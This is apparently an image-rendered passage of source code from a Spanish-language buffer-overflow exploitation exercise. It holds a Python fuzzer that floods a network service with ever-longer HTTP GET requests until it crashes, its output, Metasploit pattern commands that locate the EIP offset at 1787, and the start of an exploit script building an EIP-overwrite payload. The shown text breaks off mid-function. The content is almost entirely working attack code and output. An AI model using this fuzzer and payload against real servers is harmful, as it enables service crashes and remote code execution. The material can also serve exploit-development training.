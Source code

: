 ```python
def texploto():
    bytes = 200
    while True:
        try:
            # Defino socket, establezco conexión, espero por cada cxonex 6 secs, mando petición GET, recibo 1204 bytes de datos y cierro, en cuánto esto no pase será probable que el programa pete
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(6)
            s.connect((ip_address, port))
            print("[+] Conexión establecida.")
            s.send(b"GET " + b"A"*bytes + b" HTTP/1.1\r\n\r\n")
            s.recv(1024)
            s.close()
            bytes += 200
            print("[+] Enviando %d bytes al servidor..." % bytes)
        except Exception as e:
            print("[+] El servicio petó con %d bytes " % bytes)
            sys.exit(1)

# funcion principal

if __name__ == '__main__':
    texploto()
```

```output
[+] Enviando 1800 bytes al servidor...
[+] Conexión establecida.
[+] El servicio petó con 1800 bytes 
```

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q  0x36684335
[*] Exact match at offset 1787
```


```python
#!/usr/bin/python3

#Importo librerías necesarias
import sys
import socket
from struct import pack
 

#Declaro variabes necesarias
ip_address = input("Introduce la dirección IP del servidor: ")
port = int(input("Introduce el puerto del servidor: "))

# Función donde van las instrucciones del shellcode

def texploto():
    offset = 1787
    antes_eip = b"A"*offset
    eip = b"B"*4
    payload = antes_eip + eip + b"C"*500  

    while True:
        try:
            # Defino socket
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(7)
            s.connect((ip_address, port))
```